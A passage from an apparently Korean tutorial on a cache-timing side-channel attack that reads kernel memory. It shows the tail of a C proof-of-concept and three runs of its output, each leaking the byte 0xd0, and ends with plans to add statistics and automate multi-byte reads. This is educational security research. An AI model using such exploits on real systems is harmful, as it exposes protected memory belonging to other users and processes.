 ```c
	printf("Value        : %x\n", min_val);
	printf("Loading Time : %d\n", min);
}
```

### 실행 결과

```
$ ./poc
246 96 78 80 78 256 80 82 82 256 82 256 80 80 74 336 80 80 76 80 82 82 76 258 78 82 78 80 80 80 254 80 206 252 260 82 76 260 136 254 76 80 306 78 278 262 324 256 96 254 130 102 260 80 80 76 254 78 82 76 252 142 276 76 104 82 82 256 76 80 258 256 258 78 258 254 934 258 254 340 82 82 256 252 1096 252 254 254 256 80 78 260 76 76 258 78 258 254 254 80 256 254 80 74 256 82 262 84 350 254 258 78 758 78 256 80 258 78 78 258 258 254 254 74 258 254 370 78 254 78 258 254 256 252 80 76 256 82 78 254 254 80 260 80 78 84 260 260 256 82 76 262 80 78 82 78 82 258 254 254 270 254 76 84 78 260 78 80 78 256 252 346 254 80 254 78 78 168 78 260 252 264 76 252 254 256 76 74 78 78 314 80 80 258 254 78 82 78 254 254 80 82 78 80 76 258 254 82 42 76 256 80 254 256 190 80 256 256 264 80 256 80 270 82 78 260 78 76 254 84 80 260 256 78 78 346 314 256 254 254 80 76 82 256 500 260 258 82 254 82 254 256 558 256 80 80 
Value        : d0
Loading Time : 42
$ ./poc
270 672 252 144 76 248 526 78 76 250 76 82 86 252 258 248 260 258 252 258 76 74 74 76 372 254 254 156 248 260 80 82 252 522 254 256 670 250 258 258 526 82 252 252 78 254 250 78 82 250 254 278 82 250 82 260 246 252 250 248 80 252 76 76 82 248 248 252 258 250 246 84 256 76 82 82 74 258 256 252 250 250 252 250 78 78 248 248 80 248 82 136 1324 280 258 82 76 258 258 256 256 80 82 80 74 260 260 76 80 250 84 256 248 76 252 80 256 260 248 260 774 252 248 130 80 258 256 76 82 254 76 84 82 252 84 254 254 80 78 84 82 260 252 256 254 78 76 258 144 80 252 294 76 84 258 262 76 74 78 252 84 80 76 78 86 252 248 250 248 82 80 256 250 80 80 80 256 80 80 260 254 248 80 142 76 84 250 74 250 250 250 78 74 80 82 254 78 82 256 256 78 250 252 248 250 78 76 254 44 80 248 82 80 256 248 82 248 76 260 80 78 76 84 76 254 84 82 250 254 254 248 78 258 258 252 256 84 256 256 80 260 252 84 256 76 82 76 256 256 74 502 250 84 82 82 82 
Value        : d0
Loading Time : 44
$ ./poc
434 274 78 264 374 78 76 80 80 82 306 314 78 78 254 82 154 78 254 314 82 252 250 250 76 250 128 252 284 82 256 304 80 76 82 254 76 82 78 80 80 80 76 82 248 258 258 82 82 252 260 248 76 250 76 76 78 80 74 78 260 82 80 78 260 80 80 82 248 256 82 82 80 254 78 82 258 82 124 260 328 80 254 256 74 258 254 76 252 1198 82 258 82 82 82 250 78 256 262 80 256 80 258 250 256 78 250 250 430 250 270 76 250 254 252 260 78 258 254 250 266 80 254 252 258 80 74 252 262 80 80 248 260 260 258 86 80 256 252 258 86 256 86 254 78 80 144 296 80 440 322 82 84 260 260 258 258 84 82 260 88 86 260 344 84 260 84 256 86 88 84 258 86 84 256 256 262 86 156 254 252 80 262 254 260 252 78 78 254 84 256 78 254 82 84 76 250 250 262 82 80 80 84 80 710 86 254 82 42 80 252 262 80 812 256 254 74 78 256 258 80 248 82 80 262 256 78 250 260 254 254 76 76 250 250 82 80 258 76 80 76 254 252 250 248 256 250 252 82 76 254 250 78 82 76 254 
Value        : d0
Loading Time : 42
```

수차례 시도해본 결과 `0xd0`이라는 값이 커널메모리에 존재한다는 것을 알 수 있습니다. 다만 side-channel attack의 특성상 불확실성이 존재합니다. 이를 해소하기 위해 통계의 개념을 도입해봅시다. 그 후 몇 바이트를 읽어올 지도 조금 더 자동화 시켜봅시다.
